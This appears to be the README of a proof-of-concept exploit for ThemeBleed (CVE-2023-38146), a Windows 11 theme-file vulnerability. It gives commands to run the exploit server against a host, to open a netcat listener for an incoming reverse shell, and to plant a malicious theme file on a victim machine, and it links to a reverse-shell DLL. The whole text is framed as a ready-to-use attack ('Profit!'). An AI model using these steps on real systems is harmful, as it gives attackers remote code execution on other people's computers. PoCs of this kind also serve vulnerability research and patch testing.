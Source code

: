 # PoC for the ThemeBleed CVE-2023-38146 exploit (Windows 11 Themes)

Heavily inspired by https://github.com/gabe-k/themebleed which only runs on windows (the reason why i decided to write this).

Used modified code from the impacket smbserver.py (https://github.com/fortra/impacket/blob/master/impacket/smbserver.py)

Useful stuff: https://github.com/TalAloni/SMBLibrary/blob/master/SMBLibrary/NTFileStore/Enums/NtCreateFile/ShareAccess.cs

## How to use this:

Install the requirements and run the application:
```bash
pip3 install -r requirements.txt
python3 themebleed.py -r HOST -p 4711

# start nc listener in other shell
rlwrap -cAr nc -lvnp 4711
```

Use the "evil_theme.theme" or "evil_theme.themepack" on a vulnerable machine.

Profit!

## Custom DLL File:

Place a DLL with an exported function "VerifyThemeVersion" in the 
"./td/" folder named "Aero.msstyles_vrf_evil.dll". You should be able to find an example DLL by using google or use my example https://github.com/Jnnshschl/ThemeBleedReverseShellDLL.

```bash
pip3 install -r requirements.txt
python3 themebleed.py -r HOST --no-dll

# start nc listener in other shell
rlwrap -cAr nc -lvnp 4711
```
